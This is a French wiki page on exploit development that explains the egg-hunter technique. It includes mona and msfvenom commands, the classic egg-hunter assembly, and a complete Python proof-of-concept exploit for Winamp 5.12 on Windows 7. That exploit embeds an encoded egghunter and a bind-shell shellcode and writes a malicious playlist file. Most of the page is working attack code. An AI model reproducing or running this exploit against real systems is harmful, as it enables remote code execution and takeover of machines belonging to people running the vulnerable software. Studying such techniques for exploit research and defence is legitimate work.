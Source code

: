 ```yaml
---
title: Egg Hunter
permalink: /Egg_Hunter/
---
```


# Egg Hunter

Le principe d'un egg hunter est de séparer le shellcode en deux sections:

-   Une première section contenant la charge utile (e.g. bind shell, reverse shell, etc.). Cette partie est précédée d'un "Egg" qui est une chaîne spécifique répétée deux fois (e.g. W00TW00T).
-   Une seconde section contenant le "egg hunter" qui va parcourir la mémoire à la recherche de la charge utile.

Utilisation
-----------

Générer un shellcode egg hunter pour b33f avec [mona](/mona "wikilink"):

``` python
!mona egg -t b33f
```

Si on a besoin d'encoder l'egg hunter:

``` bash
echo "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74" | msfvenom --platform windows -a x86 -e x86/alpha_mixed -f py -p -
```

Il est recommandé de faire une recherche pour identifier où la charge utile se trouve en mémoire:

``` python
!mona cmp -f "E:\Exemple\shellcode"
```

Dans certains cas l'egg hunter tombera sur l'egg, mais le shellcode qui le suit sera corrompu. Dans ce cas:

-   Modifier l'egghunter pour qu'il commence au bon endroit. Il faut garder à l'esprit que la base address sera modifiée. Cependant la répartition sur la stack ne devrait pas l'être. On peut donc se baser sur l'état courant des registres.
-   Ajouter un contrôle d'intégrité à l'egghunter (voir [EggSandwich – An Egghunter with Integrity](http://www.securitysift.com/eggsandwich-egghunter-integrity/))

Exemple exploitation
--------------------

Exploitation de Winamp 5.12 sous Windows 7:

``` python
#!/usr/bin/env/python

head = "[playlist]\r\nFile1=\\\\"

# Egghunter modifié et encodé avec msfvenom
# On a ajouté un "or edx, 0x00FFFFFF" au début. Ceci permet de s'assurer qu'on trouve le shellcode intégre ET qu'il ne soit pas trop proche d'ESP.
buf =  ""
buf += "\x89\xe2\xdb\xd3\xd9\x72\xf4\x59\x49\x49\x49\x49\x49"
buf += "\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37"
buf += "\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41"
buf += "\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58"
buf += "\x50\x38\x41\x42\x75\x4a\x49\x4e\x61\x6b\x7a\x39\x6f"
buf += "\x4b\x4f\x59\x6f\x63\x30\x73\x56\x6b\x31\x49\x5a\x39"
buf += "\x6f\x44\x4f\x70\x42\x53\x62\x61\x7a\x74\x42\x46\x38"
buf += "\x5a\x6d\x64\x6e\x47\x4c\x75\x55\x30\x5a\x50\x74\x58"
buf += "\x6f\x6d\x68\x43\x47\x46\x50\x66\x50\x53\x44\x6e\x6b"
buf += "\x48\x7a\x4c\x6f\x44\x35\x68\x6a\x4e\x4f\x32\x55\x7a"
buf += "\x47\x4b\x4f\x5a\x47\x41\x41"

egghunter = buf

# Un bind shell encodé avec msfvenom
buf =  ""
buf += "\x89\xe2\xda\xd2\xd9\x72\xf4\x5f\x57\x59\x49\x49\x49"
buf += "\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += "\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += "\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += "\x58\x50\x38\x41\x42\x75\x4a\x49\x49\x6c\x39\x78\x4e"
buf += "\x62\x73\x30\x33\x30\x63\x30\x73\x50\x4f\x79\x69\x75"
buf += "\x50\x31\x49\x50\x31\x74\x6e\x6b\x62\x70\x66\x50\x4c"
buf += "\x4b\x46\x32\x44\x4c\x4c\x4b\x56\x32\x72\x34\x4e\x6b"
buf += "\x34\x32\x57\x58\x76\x6f\x6c\x77\x42\x6a\x45\x76\x64"
buf += "\x71\x6b\x4f\x4e\x4c\x45\x6c\x75\x31\x63\x4c\x53\x32"
buf += "\x66\x4c\x75\x70\x6a\x61\x6a\x6f\x36\x6d\x53\x31\x4f"
buf += "\x37\x59\x72\x59\x62\x51\x42\x71\x47\x6c\x4b\x30\x52"
buf += "\x64\x50\x6e\x6b\x61\x5a\x47\x4c\x6c\x4b\x42\x6c\x67"
buf += "\x61\x44\x38\x58\x63\x77\x38\x55\x51\x5a\x71\x42\x71"
buf += "\x6c\x4b\x50\x59\x65\x70\x45\x51\x59\x43\x6e\x6b\x51"
buf += "\x59\x44\x58\x69\x73\x66\x5a\x53\x79\x6e\x6b\x76\x54"
buf += "\x4c\x4b\x67\x71\x4a\x76\x34\x71\x4b\x4f\x6c\x6c\x6b"
buf += "\x71\x5a\x6f\x44\x4d\x63\x31\x6f\x37\x45\x68\x39\x70"
buf += "\x62\x55\x68\x76\x57\x73\x73\x4d\x59\x68\x47\x4b\x31"
buf += "\x6d\x71\x34\x74\x35\x5a\x44\x33\x68\x6e\x6b\x72\x78"
buf += "\x44\x64\x77\x71\x4a\x73\x53\x56\x6c\x4b\x54\x4c\x32"
buf += "\x6b\x6e\x6b\x31\x48\x77\x6c\x43\x31\x4b\x63\x6c\x4b"
buf += "\x74\x44\x4e\x6b\x56\x61\x48\x50\x4d\x59\x62\x64\x44"
buf += "\x64\x74\x64\x33\x6b\x33\x6b\x35\x31\x33\x69\x32\x7a"
buf += "\x46\x31\x4b\x4f\x6b\x50\x63\x6f\x73\x6f\x63\x6a\x6e"
buf += "\x6b\x44\x52\x68\x6b\x4e\x6d\x33\x6d\x70\x68\x77\x43"
buf += "\x77\x42\x57\x70\x75\x50\x33\x58\x62\x57\x73\x43\x66"
buf += "\x52\x61\x4f\x46\x34\x32\x48\x72\x6c\x50\x77\x77\x56"
buf += "\x55\x57\x39\x6f\x49\x45\x4d\x68\x4a\x30\x63\x31\x37"
buf += "\x70\x37\x70\x57\x59\x49\x54\x32\x74\x72\x70\x51\x78"
buf += "\x56\x49\x6b\x30\x62\x4b\x63\x30\x79\x6f\x4a\x75\x53"
buf += "\x5a\x43\x38\x36\x39\x76\x30\x49\x72\x79\x6d\x31\x50"
buf += "\x36\x30\x77\x30\x70\x50\x30\x68\x4a\x4a\x76\x6f\x69"
buf += "\x4f\x69\x70\x4b\x4f\x58\x55\x5a\x37\x52\x48\x43\x32"
buf += "\x35\x50\x47\x61\x53\x6c\x6c\x49\x49\x76\x52\x4a\x36"
buf += "\x70\x72\x76\x33\x67\x63\x58\x6a\x62\x59\x4b\x45\x67"
buf += "\x35\x37\x59\x6f\x4a\x75\x56\x37\x32\x48\x6f\x47\x4a"
buf += "\x49\x74\x78\x4b\x4f\x6b\x4f\x78\x55\x46\x37\x71\x78"
buf += "\x53\x44\x58\x6c\x67\x4b\x68\x61\x59\x6f\x6b\x65\x72"
buf += "\x77\x4f\x67\x50\x68\x32\x55\x30\x6e\x62\x6d\x50\x61"
buf += "\x79\x6f\x6b\x65\x65\x38\x50\x63\x42\x4d\x62\x44\x37"
buf += "\x70\x4e\x69\x59\x73\x52\x77\x61\x47\x63\x67\x30\x31"
buf += "\x69\x66\x63\x5a\x76\x72\x50\x59\x56\x36\x48\x62\x79"
buf += "\x6d\x53\x56\x6b\x77\x52\x64\x55\x74\x77\x4c\x75\x51"
buf += "\x55\x51\x4c\x4d\x37\x34\x66\x44\x34\x50\x48\x46\x35"
buf += "\x50\x32\x64\x72\x74\x32\x70\x50\x56\x52\x76\x36\x36"
buf += "\x63\x76\x76\x36\x52\x6e\x73\x66\x61\x46\x72\x73\x76"
buf += "\x36\x45\x38\x63\x49\x58\x4c\x57\x4f\x4e\x66\x6b\x4f"
buf += "\x6a\x75\x4e\x69\x6b\x50\x30\x4e\x76\x36\x61\x56\x59"
buf += "\x6f\x50\x30\x52\x48\x53\x38\x4d\x57\x67\x6d\x51\x70"
buf += "\x4b\x4f\x68\x55\x4f\x4b\x4a\x50\x4d\x65\x69\x32\x33"
buf += "\x66\x55\x38\x69\x36\x4a\x35\x6d\x6d\x4f\x6d\x49\x6f"
buf += "\x79\x45\x65\x6c\x53\x36\x73\x4c\x55\x5a\x6b\x30\x49"
buf += "\x6b\x69\x70\x30\x75\x74\x45\x4d\x6b\x71\x57\x55\x43"
buf += "\x53\x42\x62\x4f\x31\x7a\x65\x50\x70\x53\x69\x6f\x6a"
buf += "\x75\x41\x41"

shellcode = "w00tw00t" + buf

padding = "\x90"*(1022 - len(shellcode) - len(egghunter))
payload = ""
print("[+] offset {}\r\n[shellcode]".format(len(payload)))
payload+= shellcode
print("[+] offset {}\r\n[padding]".format(len(payload)))
payload+= padding[:len(padding)/2]
print("[+] offset {}\r\n[egghunter]".format(len(payload)))
payload+= egghunter
print("[+] offset {}\r\n[padding]".format(len(payload)))
payload+= padding[len(padding)/2:]
print("[+] offset {}\r\n[return address]".format(len(payload)))
payload+= "\x61\xd9\x02\x02" + "\xE9\x16\xFF\xFF\xFF" + "\x90"*6

end = "\r\n\Title1=bramo\r\nLength=512\r\nNumberOfEntries=1\r\nVersion=2\r\n"

f = open('poc.pls','w')
f.write(head + payload + end)
f.close()

# Cette partie est destinée à avoir un fichier pour utiliser mona cmp -f shellcode et identifier où se trouvent les points d'intérêts en mémoire.
f = open('shellcode', 'w')
f.write(shellcode)
f.close()
```

Exemple d'egg hunter
--------------------

L'exemple ci-dessous est l'exemple "classique" d'egg hunter:

``` asm
loop_inc_page:
    or    dx, 0x0fff                    // Add PAGE_SIZE-1 to edx
loop_inc_one:
    inc   edx                           // Increment our pointer by one
loop_check:
    push  edx                           // Save edx
    push  0x2                           // Push NtAccessCheckAndAuditAlarm
    pop   eax                           // Pop into eax
    int   0x2e                          // Perform the syscall
    cmp   al, 0x05                      // Did we get 0xc0000005 (ACCESS_VIOLATION) ?
    pop   edx                           // Restore edx
loop_check_8_valid:
    je    loop_inc_page                 // Yes, invalid ptr, go to the next page

is_egg:
    mov   eax, 0x50905090               // Throw our egg in eax
    mov   edi, edx                      // Set edi to the pointer we validated
    scasd                               // Compare the dword in edi to eax
    jnz   loop_inc_one                  // No match? Increment the pointer by one
    scasd                               // Compare the dword in edi to eax again (which is now edx + 4)
    jnz   loop_inc_one                  // No match? Increment the pointer by one

matched:
    jmp   edi                           // Found the egg.  Jump 8 bytes past it into our code.
```

Ressources
----------

-   [Fuzzy Security - Egg Hunters](http://www.fuzzysecurity.com/tutorials/expDev/4.html)

[Category:Exploitation](/Category:Exploitation "wikilink")
